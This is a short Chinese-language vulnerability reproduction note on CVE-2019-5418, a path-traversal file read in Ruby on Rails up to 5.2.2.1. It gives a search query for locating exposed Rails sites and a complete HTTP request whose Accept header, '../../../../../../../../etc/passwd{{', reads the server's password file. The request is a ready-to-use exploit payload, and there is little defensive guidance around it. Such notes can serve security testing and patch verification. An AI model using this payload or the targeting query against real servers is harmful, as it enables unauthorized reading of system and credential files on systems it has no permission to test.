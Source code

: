 # Rails Accept 任意文件读取漏洞 CVE-2019-5418

## 漏洞描述

Ruby on Rails 是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。这个漏洞主要是由于 Ruby on Rails 使用了指定参数的 render file 来渲染应用之外的视图，我们可以通过修改访问某控制器的请求包，通过“…/…/…/…/”来达到路径穿越的目的，然后再通过“{{”来进行模板查询路径的闭合，使得所要访问的文件被当做外部模板来解析。

## 漏洞影响

```
Rail <= 5.2.2.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面

![image-20220628111456281](images/202206281119622.png)

验证请求包

```
GET /robots HTTP/1.1
Host: 127.0.0.1:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![image-20220628111940387](images/202206281119526.png)
